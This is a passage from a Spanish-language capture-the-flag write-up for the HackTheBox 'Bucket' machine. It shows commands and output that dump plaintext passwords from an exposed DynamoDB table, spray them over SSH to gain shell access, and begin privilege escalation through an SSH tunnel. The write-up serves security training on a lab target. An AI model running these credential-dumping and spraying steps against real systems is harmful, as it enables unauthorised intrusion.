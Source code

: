 Podemos copiarnos estas contraseñas para intentar un password spraying, también se puede hacer con un comando: 

```bash 
┌──(kali㉿kali)-[~]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[].password.S'
Management@#1@#
Welcome123!
n2vM-<_K_Q:.Aa2

┌──(kali㉿kali)-[~]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[].password.S' > passwords
```

Y ya podrìamos acceder como el usuario `roy`:
```bash 
┌──(kali㉿kali)-[~]
└─$ netexec ssh 10.10.10.212 -u roy -p passwords 
SSH         10.10.10.212    22     10.10.10.212     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Management@#1@#
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Welcome123!
SSH         10.10.10.212    22     10.10.10.212     [+] roy:n2vM-<_K_Q:.Aa2  Linux - Shell access!
```

Tomamos la flag: 

```bash 
roy@bucket:~$ whoami
roy
roy@bucket:~$ ls
project  user.txt
```

<h3 style="coloro: "> Escalada de privilegios. </h3>

Explorando el sistema: 

```bash 
roy@bucket:~$ netstat -tnl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:41567         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN 
``` 

En `/etc/apache2/sites-enabled` podemos ver la configuración del sitio, nos damos cuenta que corre como root. 

Nos volvemos a conectar con un tunel ssh para ver que hay en dicho puerto(`ssh -L 8000:localhost:8000`)
